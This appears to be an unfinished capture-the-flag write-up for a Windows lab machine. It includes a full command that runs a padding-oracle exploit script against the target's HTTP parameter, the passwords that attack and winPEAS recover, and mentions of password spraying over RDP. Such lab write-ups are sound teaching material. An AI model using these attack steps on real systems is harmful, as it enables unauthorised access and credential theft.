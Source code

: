 #InProgress 
```IP
192.168.167.119
```
# Enumeration

## HTTP 80
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241219152843.png?raw=true)
## HTTP 2290
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241219153318.png?raw=true)
We also find the next message
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241219160514.png?raw=true)
```
AES-256-CBC-PKCS7 ciphertext: 4358b2f77165b5130e323f067ab6c8a92312420765204ce350b1fbb826c59488

Victor's TODO: Need to add authentication eventually..
```
If you interact with the c parameter it will respond with a 0 with any string excepto for the ciphertext, which will retrieve a 1:
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241220094911.png?raw=true)
# Exploitation
Searching for AES-256-CBC-PKCS7 exploit we get the following github page which contains an exploit for the padding oracle attack.
https://github.com/mpgn/Padding-oracle-attack
```
python exploit.py -c '4358b2f77165b5130e323f067ab6c8a92312420765204ce350b1fbb826c59488' -l 16 --host 192.168.167.119:2290 -u /?c= -v --error '<span id="MyLabel">0</span>'
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241220095604.png?raw=true)
It cracked the password!
```
WormAloeVat7
```
Spraying the password we get access via RDP!

# PrivEsc

## Manual

## Automated

### Peass
If we run winpeas we will find some powershell events which haven't been deleted. They contain administrator credentials and the flag!
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241220100734.png?raw=true)
```
EverywayLabelWrap375
```
Indeed we can execute a powershell as administrator with the latter password, and assess that the flag is indeed the one retrieved by winpeas:
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241220101033.png?raw=true)
### Mimikatz

# Lateral Movement
